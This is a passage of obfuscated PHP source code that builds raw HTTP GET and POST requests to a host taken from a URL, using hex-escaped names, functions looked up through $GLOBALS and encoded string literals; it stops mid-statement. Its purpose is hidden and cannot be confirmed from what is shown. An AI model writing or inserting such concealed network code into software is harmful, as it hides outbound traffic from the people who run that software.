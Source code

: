 $O00O_0OO__["\x71\x75\x65\x72\x79"]=\'\';isset($O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"])||$O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"]=\'\';$O0__OO00_O=$O00O_0OO__["\x70\x61\x74\x68"]?$O00O_0OO__["\x70\x61\x74\x68"].($O00O_0OO__["\x71\x75\x65\x72\x79"]?\'?\'.$O00O_0OO__["\x71\x75\x65\x72\x79"]:\'\'):\'/\';$O__OO0_0O0=$O00O_0OO__["\x68\x6f\x73\x74"];if($O00O_0OO__["\x73\x63\x68\x65\x6d\x65"]==\'https\'){$O_O_0OO00_=\'1.1\';$O_O0_0_O0O=empty($O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"])?443:$O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"];$O__OO0_0O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'Ky7OshTdLtPXBwA=\');$O__OO0_0O0.=$O00O_0OO__["\x68\x6f\x73\x74"];}else{$O_O_0OO00_=\'1.0\';$O_O0_0_O0O=empty($O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"])?80:$O00O_0OO__["\x4f\x5f\x4f\x30\x5f\x30\x5f\x4f\x30\x4f"];}$O_0_O00O_O=\'Host:\';$O_0_O00O_O.=$O__OO0_0O0;$O_O_O_O000[]=$O_0_O00O_O;$O_O_O_O000[]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'c87PyhT0tNLsnMz7NyzsktPvTgUA\');$O_O_O_O000[]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'Cy1OLhTdJ1TE/NK7EK9wgtPCAA==\');$O_O_O_O000[]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'c0xOThTi0osdLtPS1wIA\');unset($O_0_O00O_O);if($OOO0_0_0_O==2){if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x4f\x4f\x30\x4f\x30\x5f\x30"]($O0__OO0O0_)){$O0__OO0O0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x30\x30\x4f\x4f\x5f\x4f\x5f"]($O0__OO0O0_);}$O_O_O_O000[]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'c87PKhT0nNK9EtqSxItUosKMjJTE4syczP06/QLS8v103LL8rVLS3KSc1Lzk9tPJTQEA\');$O_O_O_O000[]=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'c87PKhT0nNK9H1Sc1LL8mtPwAgA=\').${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($O0__OO0O0_);$OO00O___O0="POST $O0__OO00_O HTTP/$O_O_0OO00_\\r\\n".${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x30\x4f\x5f\x30\x5f\x4f\x5f"]("\\r\\n",$O_O_O_O000)."\\r\\n\\r\\n".$O0__OO0O0_;unset($O0__OO0O0_);}else{$OO00O___O0="GET $O0__OO00_O